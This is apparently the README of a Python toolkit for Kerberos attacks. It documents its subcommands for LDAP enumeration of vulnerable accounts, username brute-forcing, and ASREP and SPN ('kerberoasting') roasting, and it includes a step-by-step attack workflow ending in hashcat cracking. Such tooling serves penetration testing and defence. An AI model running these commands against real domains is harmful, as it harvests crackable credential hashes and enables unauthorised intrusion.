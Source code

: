 # kerberoast
Kerberos attack toolkit -pure python-

### Install
```pip3 install kerberoast```   

#### Prereqirements
Python 3.6
See requirements.txt


### For the impatient
IMPORTANT: the accepted formats are the following  
```<target>``` : ```<domainname>/<username>:<password>@<DC_ip>```  
```<userlogin>```: ```<kerberos realm>/<username>:<password or NT hash or AES key>@<DC_ip>```  
  
If nt hash or AES key is used insted of plaintext password, you MUST indicate it with ```-n``` and ```-a``` respectively  
  
Steps:  
1. Look for vulnerable users via LDAP  
```kerberoast ldap  all <target> -o ldapenum```
2. Use ASREP roast against users in the ```ldapenum_asrep_users.txt``` file  
```kerberoast asreproast <DC_ip> -t ldapenum_asrep_users.txt```
3. Use SPN roast against users in the ```ldapenum_spn_users.txt``` file  
```kerberoast spnroast <userlogin> -t ldapenum_spn_users.txt```
4. Crack SPN roats output with hashcat  
<strike>5. Crack ASREP roast results with hashcat </strike> See: [hashcat issue ](https://github.com/hashcat/hashcat/issues/1707)  

## Commands
### ldap
This command group is for enumerating potentially vulnerable users via LDAP.  
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast ldap  <type> <target> <options>```  
  
```Type```: It supports three types of users to be enumerated  
1. ```spn``` Enumerates users with ```servicePrincipalName``` attribute set.  
2. ```asrep``` Enumerates users with ```DONT_REQ_PREAUTH``` flag set in their UAC attribute.
3. ```all``` Startes all the above mentioned enumerations.

```target```:  Specifies the usercredential and the target server in the following format
  
&nbsp;&nbsp;&nbsp;&nbsp;```<domainname>/<username>:<password>@<DC_ip>```  
If password is omitted, the script will promt for the password.  
  
```options```:  
&nbsp;&nbsp;&nbsp;&nbsp;```-n```: Specifies if the password is in fact an NT hash  
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name  

### brute
This command is to perform username enumeration by brute-forcing the kerberos service with possible username candidates  
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast brute <realm> <dc_ip> <targets> <options>```  
  
```realm```: The kerberos realm usually looks like ```COMPANY.corp```  
```dc_ip```: IP or hostname of the domain controller  
```targets```: Path to the file which contains the possible username candidates  
```options```:   
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name 

### asreproast
This command is to perform ASREProast attack
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast asreproast <dc_ip> <options>```  
  
```dc_ip```: IP or hostname of the domain controller  
```options```:  
&nbsp;&nbsp;&nbsp;&nbsp;```-r```: Specifies the kerberos realm to be used. It overrides all other realm info.  
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name  
&nbsp;&nbsp;&nbsp;&nbsp;```-t```: Path to the file which contains the usernames to perform the attack on   
&nbsp;&nbsp;&nbsp;&nbsp;```-u```: Specifies the user to perform the attack on. Format is either ```<username>``` or ```<realm>/<username>``` but in the first case, the ```-r``` option must be used to specify the realm  
  
## spnroast
This command is to perform SPNroast (AKA kerberoast) attack.  
#### Command structure  
&nbsp;&nbsp;&nbsp;&nbsp;```kerberoast spnroast <logincreds> <options>```  
  
```logincreds```: Specifies the usercredential and the target server in the following format ```<kerberos realm>/<username>:<password or NT hash or AES key>@<DC_ip>```  
```options```:  
&nbsp;&nbsp;&nbsp;&nbsp;```-r```: Specifies the kerberos realm to be used. It overrides all other realm info.  
&nbsp;&nbsp;&nbsp;&nbsp;```-o```: Output file base name  
&nbsp;&nbsp;&nbsp;&nbsp;```-t```: Path to the file which contains the usernames to perform the attack on   
&nbsp;&nbsp;&nbsp;&nbsp;```-u```: Specifies the user to perform the attack on. Format is either ```<username>``` or ```<realm>/<username>``` but in the first case, the ```-r``` option must be used to specify the realm  
&nbsp;&nbsp;&nbsp;&nbsp;```-n```: Specifies if the password is in fact an NT hash  
&nbsp;&nbsp;&nbsp;&nbsp;```-a```: Specifies if the password is in fact an AES key  
